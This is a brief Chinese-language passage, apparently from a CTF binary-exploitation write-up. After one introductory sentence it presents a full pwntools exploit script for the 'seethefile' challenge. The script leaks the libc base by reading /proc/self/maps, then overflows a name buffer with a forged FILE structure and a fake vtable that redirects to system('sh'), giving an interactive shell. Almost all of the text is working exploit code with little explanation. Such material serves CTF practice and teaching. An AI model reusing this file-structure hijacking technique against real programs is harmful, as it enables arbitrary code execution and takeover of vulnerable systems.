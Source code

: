
利用这里利用方法和例1一致就不再赘述，直接上exp

```python
from pwn import*
context.log_level = 'debug'
context.update(arch='amd64',os='linux',timeout=1)
p = process('./seethefile')
#p = remote('',)
libc = ELF('/lib/i386-linux-gnu/libc.so.6')

def pr(a,addr):
	log.success(a+'===>'+hex(addr))
def openfile(name):
    p.recvuntil('Your choice :')
    p.sendline('1')
    p.recvuntil('to see :')
    p.sendline(name)

def readfile():
    p.recvuntil('Your choice :')
    p.sendline('2')

def writefile():
    p.recvuntil('Your choice :')
    p.sendline('3')

def closefile():
    p.recvuntil('Your choice :')
    p.sendline('4')
 
def exit(name):
    p.recvuntil('Your choice :')
    p.sendline('5')
    p.recvuntil('your name :')
    p.sendline(name)

name_addr = 0x804b260
openfile('/proc/self/maps')
readfile()
writefile()
readfile()
writefile()
p.recvuntil('f7')
libcbase = int('0xf7'+p.recv(6),16)+0x1000
system = libcbase + libc.sym['system']
pr('libcbase',libcbase)
pr('system',system)
#gdb.attach(p,'b *0x8048B0F')
fake_file = ('sh'+'\x00'*2).ljust(0x48,'\x00')+p32(0x804b500)
fake_file = fake_file.ljust(0x94,'\x00')+p32(name_addr+0x20+0x94+4)
fake_vtable = '\x00'*64 + p32(system)
payload = 'a'*0x20 + p32(0x0804B284) + fake_file + fake_vtable
exit(payload)
p.interactive()

```

